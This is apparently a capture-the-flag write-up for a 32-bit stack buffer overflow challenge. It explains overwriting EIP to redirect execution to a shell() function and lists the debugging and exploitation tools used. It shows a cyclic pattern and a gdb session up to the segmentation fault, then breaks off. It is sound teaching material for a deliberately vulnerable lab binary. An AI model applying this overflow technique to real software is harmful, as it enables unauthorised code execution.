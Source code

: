 The idea of this attack is to overflow the `buf` variable enough to not only overwrite pointers in the stack, but also overwrite the `eip` with the right value so it jumps to the `shell()` function instead of the `main()` function to finish the program :

 > EIP is a register in x86 architectures (32bit). It holds the "Extended Instruction Pointer" for the stack. In other words, it tells the computer where to go next to execute the next command and controls the flow of a program.


### Tools used

 - `gdb`
 - `gef` : pritifying of `gdb`, see : https://github.com/hugsy/gef 
 - `nm` : extract addresses of functions inside a binary
 - `cyclic` : gives a bytes cycle sequence to overwrite pointers and variables with.
 - `pwn tools` : binary exploitation tools library of python
 - `gcc-multilib` : this C Compiler enables you to compile C programs to ELF 32-bits or 64-bits, here is how to install it :
   - `sudo apt-get install gcc-multilib`
   - Don't Forget to visit : https://www.geeksforgeeks.org/compile-32-bit-program-64-bit-gcc-c-c/


### Process

First of all, we need a big enough payload to check in which position the `eip` is being overwritten. To do that, we will use the `cyclic` utility with a large enough sequence length :

```
└─$ cyclic 100    
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```

After that, using the `gdb` debugger, let's inject the payload in the program and see the stack state after the **Segmentation fault** :

```
└─$ gdb chall
GNU gdb (Debian 12.1-3) 12.1
Copyright (C) 2022 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
GEF for linux ready, type `gef' to start, `gef config' to configure
90 commands loaded and 5 functions added for GDB 12.1 in 0.00ms using Python engine 3.10
Reading symbols from ./Buffer_overflow_4/chall...
(No debugging symbols found in ./Buffer_overflow_4/chall)
gef➤  r
Starting program: /home/rivench/Documents/CTFs/mentoring_program/2k22/pwn/Buffer_overflow_4/chall 
[*] Failed to find objfile or not a valid file format: [Errno 2] No such file or directory: 'system-supplied DSO at 0xf7fc7000'
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Hola StackSmasher : aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

Program received signal SIGSEGV, Segmentation fault.
```